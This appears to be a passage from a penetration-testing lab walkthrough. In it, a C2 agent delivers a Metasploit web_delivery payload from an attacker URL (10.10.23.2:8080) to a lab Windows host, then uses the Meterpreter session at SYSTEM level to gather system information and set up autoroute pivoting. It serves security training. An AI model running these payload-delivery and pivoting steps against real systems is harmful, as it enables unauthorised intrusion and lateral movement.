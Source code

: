 `options`:

| Name  | Value   | Required | Description                         |
|-------|---------|----------|-------------------------------------|
| Agent | DemoINE | True     | Agent to run Metasploit payload on. |
| URL   |         | True     | URL from the Metasploit             |
|       |         |          | web_delivery module                 |

_Executing the payload delivery on the target._

`set URL http://10.10.23.2:8080/1Quk5U`, `execute`:
```
[*] Tasked DemoINE to run Task 7
```

<span style="color: #e57373;">**Attacker machine**</span>.

_Interacting with the new Meterpreter active session._

`sessions`

`sessions -i 1`

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Confirming elevated privileges on the target system._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Gathering system information._

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

`bg`

<span style="color: #e57373;">**Attacker machine**</span>.

_Setting up autoroute to pivot through the compromised machine's subnet._

`search autoroute`, `use post/multi/manage/autoroute`, `show options`, `set SESSION 1`, `run`:
```
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against ATTACKDEFENSE
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.4.16.0/255.255.240.0 from host's routing table.
[*] Post module execution completed
```
